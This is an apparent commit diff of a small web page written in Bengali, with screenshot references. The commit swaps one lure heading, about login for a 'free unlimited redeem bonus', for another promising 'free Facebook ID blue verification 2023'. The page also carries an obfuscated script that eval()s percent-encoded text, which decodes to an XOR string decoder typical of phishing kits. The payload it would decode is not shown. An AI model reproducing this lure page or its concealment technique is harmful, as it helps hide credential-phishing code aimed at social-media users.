

Before and after one commit to Gama-lon/beta, a plain HTML site: page like/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (316-956 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/like/index.html
+++ b/like/index.html
@@ -2,7 +2,7 @@
 <head>
 </head>
 <body>
-<h2> ফ্রী আনলিমিটেড রিডিম বোনাস পেতে লগইন করুন। </h2>
+<h2>ফ্রী ফেসবুক আইডি ব্লু ভেরিফিকেশন ২০২৩</h2>
 <script type="text/javascript">
 <!--
 eval(unescape('%66%75%6e%63%74%69%6f%6e%20%64%36%30%33%62%34%62%38%39%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%34%35%38%38%33%33%38%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%38%39%38%35%32%35%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%31%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
```
